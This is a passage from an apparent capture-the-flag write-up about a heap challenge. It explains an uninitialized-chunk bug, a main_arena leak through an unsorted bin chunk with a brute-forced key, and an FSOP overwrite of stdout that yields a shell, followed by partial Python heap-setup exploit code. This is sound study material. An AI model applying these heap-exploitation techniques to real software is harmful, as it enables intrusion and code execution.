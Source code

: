```c
    chunks[v1] = 0LL;
    puts("Delete completed");
  }
  else
  {
    puts("Error");
  }
  return v4 - __readfsqword(0x28u);
}
```
`delete()` frees the allocated buffer and its metadata chunk at the given index after validating the key, then clears the entry in the chunks array.

### Vulnerability
There exists two exploitable vulnerabilities.

* Even when allocation fails due to size check (size<=1024), the size field is still updated for the occupied index.
* When key check (key <= 0x1000000) fails, the allocated chunk is left uninitialized where its fields are used as size & ptr to buffer 

I used the latter one.

### Exploit
Exploit scenario is as follows.

* Prepare unsorted bin chunk which will contain the address to main_arena.
* Allocate a metadata chunk from unsorted bin, and fail the key check to keep in uninitialized.
* Now call `edit()` to the uninitialized chunk, and bruteforce the key, which is the top 2 bytes of main_arena.
* Getting the right key will print the size which is the low 4 bytes of main_arena.

Now we have the libc base, and we can write arbitrary from main_arena with `edit()`.

* Overwriting stdout (which is behind the main_arena) with FSOP payload will get the shell.

> One interesting aspect of this exploit was that the main_arena address didn't start with `0x7f` in remote, unlike in the local environment where it always did. Anyways, fixing it in 0x7f still works:)
{: .prompt-tip }

Below is the exploit code I used with brief comments.

```python
def exploit(p):
    create(0, 0, 1000, b"A"*0x10)
    create(1, 1, 1000, b"B"*0x10)
    create(2, 2, 1000, b"C"*0x10)
    create(3, 3, 1000, b"D"*0x10)
    create(4, 4, 1000, b"E"*0x10)
    create(5, 5, 1000, b"F"*0x10)
    create(6, 6, 1000, b"G"*0x10)
    
    ## Unsorted bin chunk
    create(7, 7, 1000, b"H"*0x8)
    ## Avoid consolidation with top chunk
    create(8, 8, 0x10, b"I"*0x8)

    delete(0, 0)
    delete(1, 1)
    delete(2, 2)
    delete(3, 3)
    delete(4, 4)
    delete(5, 5)
    delete(6, 6)
    delete(7, 7)
```